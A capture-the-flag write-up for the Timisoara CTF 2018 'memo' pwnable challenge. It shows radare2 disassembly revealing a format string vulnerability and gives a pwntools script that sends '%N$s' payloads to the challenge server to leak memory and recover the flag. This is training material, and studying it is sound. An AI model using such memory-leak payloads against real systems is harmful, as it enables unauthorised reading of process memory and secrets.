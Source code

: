 # [Timisoara CTF 2018] memo (Pwnable-70pts)

## Discovery time !

In this task we were given a binary and `host:port` of the server.

when we connect to the server the binary ask us	for our name and display three numbers on the screen for one second. For each number, it asks us what number was on the screen. If we	have entered the three good numbers, it displays "You have a very good memory `the name you entered`" followed by	"Bye!".

    $ nc 89.38.210.128 31339
    Your name? > user1
    Let's play
    What number was on the screen? 42
    Good memory!
    What number was on the screen? 77
    Good memory!
    What number was on the screen? 111
    Good memory!
    You have a very good memory user1
    Bye!

After trying several times we realize that the binary always display the same numbers.

## Reverse time !

Now that we have discovered the binary it's now time to reverse it!
So we have disassembled the binary with radare2 and something quickly attracted our attention:
    
    $ r2 ./memo
    [0x00400a00]> pd 200 @main
     ;-- main:
     0x00400b00      55             push rbp
     0x00400b01      4889e5         mov rbp, rsp
	 ...
     0x00400dcf      48bf82114000.  movabs rdi, str.You_have_a_very_good_memory ; 0x401182 ; "You have a very good memory "
     0x00400dd9      b000           mov al, 0
     0x00400ddb      e840fbffff     call sym.imp.printf
     0x00400de0      488d7db0       lea rdi, qword [rbp - 0x50]
     0x00400de4      89854cffffff   mov dword [rbp - 0xb4], eax
     0x00400dea      b000           mov al, 0
     0x00400dec      e82ffbffff     call sym.imp.printf
     0x00400df1      48bf9f114000.  movabs rdi, str._nBye_      ; 0x40119f ; "\nBye!"
     0x00400dfb      898548ffffff   mov dword [rbp - 0xb8], eax
     0x00400e01      e8eafaffff     call sym.imp.puts
     ...

In the above extract we can see that the binary is doing something like this:

    printf("You have a very good memory ");
    printf(some_variable);
    puts("\nBye!");
 
So we can suppose that there is a format string vulnerability here.

We test with a format identifiers in our name to check that:

    $ nc 89.38.210.128 31339
    Your name? > %s
    Let's play
    ...
    You have a very good memory (null)
    Bye!
And we see that `%s` is interpreted by printf.
We definitely have a format string vulnerability here !
 
## Pwn time !

And finally, now that we found a vulnerability let's exploit it !

We found a **format string vulnerability** that means we can read all the program memory and even write in it !

First, we code a little python script to read the memory:

    from pwn import *
    import sys

    i = 0
    while True:
        i += 1
        try:
            r = remote('89.38.210.128', 31339, level='error')
            r.recvuntil("? > ")
            r.sendline("%" + str(i) + "$s")
            r.recvline()
            r.sendline("42")
            r.recvline()
            r.sendline("77")
            r.recvline()
            r.sendline("111")
            r.recvline()
            sys.stdout.write(r.recvline())
            r.close()
        except EOFError, exception:
                pass
We run it:

    $ python pwner.py
    You have a very good memory You have a very good memory n? 
    You have a very good memory 
    You have a very good memory H=���s1�H\x83�\xfe�
    ...
    You have a very good memory 1�I��^H\x89�H���PTI���@
    You have a very good memory timctf{t0_4rr1ve_4t_th3_s1mple_is_d1ff1cult}
    You have a very good memory (null)

**Et voilà !**
